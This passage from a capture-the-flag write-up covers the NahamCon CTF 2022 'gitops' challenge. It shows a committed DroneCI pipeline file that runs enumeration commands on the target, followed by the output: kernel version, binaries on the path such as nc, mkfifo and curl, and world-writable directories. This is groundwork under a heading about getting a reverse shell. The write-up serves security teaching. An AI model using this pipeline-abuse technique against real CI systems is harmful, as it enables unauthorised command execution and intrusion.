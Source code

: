 ![DroneCI output for initial testing](/static/images/nahamcon-ctf-2022/gitops/output_whoami.png)

We could do all our enumeration processes and root the target box this way, but it would be quite repetitive to create a new commit for each command then go to DroneCI to check the output...

## Getting Reverse shell

We will reproduce the same steps as the `whoami` command execution, but instead, we used some simple commands to gather more information about the target system.

```yaml
steps:
  - name: linting
    commands:
      - phplint --lint .
      - uname -a
      - cat /etc/issue
      - find $(echo $PATH | sed 's/:/ /g')
      - find / -perm /o+w -type d
```

### Stripped output Response

We only keep the most relevant data, to keep this list smaller but we had every binary on the default Environment Path

```
+ uname -a
Linux gitops-5edbd6bd8fd79ba1-c77694485-8gjlx 5.4.144+ #1 SMP Wed Nov 3 09:56:10 PDT 2021 x86_64 Linux

+ cat /etc/issue
Welcome to Alpine Linux 3.15
Kernel \r on an \m (\l)

+ find $(echo $PATH | sed 's/:/ /g')
/usr/local/bin/php
/usr/bin/wget
/usr/bin/nc
/usr/bin/whoami
/usr/bin/mkfifo
/usr/bin/git
/usr/bin/git-receive-pack
/usr/bin/git-upload-pack
/usr/bin/git-upload-archive
/usr/bin/git-shell
/usr/bin/curl
/bin/sh
/bin/base64
/bin/mktemp
/bin/ash
/bin/busybox

+ find / -perm /o+w -type d
/var/tmp
/var/www/html
/dev/shm
/tmp
```
